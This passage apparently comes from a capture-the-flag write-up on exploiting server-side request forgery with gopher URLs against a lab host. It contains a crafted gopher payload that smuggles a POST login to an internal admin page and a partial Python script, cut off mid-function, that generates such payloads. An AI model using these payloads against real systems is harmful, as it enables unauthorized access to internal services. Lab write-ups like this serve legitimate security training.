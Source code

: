 We now need to encode special characters, in particular spaces (`%20`) and newlines (`%0D%0A`) and =(`%3D`)

We'd get something like this:
```http
gopher://dateserver.htb:80/_POST%20/admin.php%20HTTP%2F1.1%0D%0AHost:%20dateserver.htb%0D%0AContent-Length:%2013%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0A%0D%0Aadminpw%3Dadmin
```

> ⚠️ **IMPORTANT:**
> 
> Since we are sending our URL within the HTTP POST parameter `dateserver`, which itself is URL-encoded, we need to URL-encode the entire URL again to ensure the correct format of the URL after the web server accepts it.
> 
> In BurpSuite -> Select the request -> Convert Selection -> URL-encode key characters.


Automatic gopher script, needs a file containing the POST request as seen above:
```python
import sys
import urllib.parse

def transform_to_gopher(input_file):
    try:
        with open(input_file, 'r') as file:
            content = file.read().strip()  # Remove trailing newlines
        
        # Split into headers and body
        parts = content.split('\n\n', 1)
        headers = parts[0]
        body = parts[1] if len(parts) > 1 else ""
        
        # Process headers
        header_lines = headers.split('\n')
        processed_lines = []
        
        for i, line in enumerate(header_lines):
            # Special handling for HTTP request line (first line)
            if i == 0:
                method, path, http_ver = line.split()
                encoded_line = f"{urllib.parse.quote(method)}%20{urllib.parse.quote(path)}%20HTTP%2F1.1%0D%0A"
            else:
                # Split header name and value
                if ': ' in line:
                    header_name, header_value = line.split(': ', 1)
                    encoded_line = f"{header_name}:%20{urllib.parse.quote(header_value)}%0D%0A"
                else:
                    encoded_line = urllib.parse.quote(line) + '%0D%0A'
            
            processed_lines.append(encoded_line)
        
        # Process body (if exists)
        encoded_body = urllib.parse.quote(body) if body else ""
        
        # Combine all parts with an extra CRLF before body if body exists
        gopher_content = ''.join(processed_lines)
        if encoded_body:
            gopher_content += '%0D%0A' + encoded_body
        
        # Extract host from headers
        host = "dateserver.htb"  # default
        for line in header_lines:
            if line.lower().startswith('host:'):
                host = line.split(': ', 1)[1].strip()
```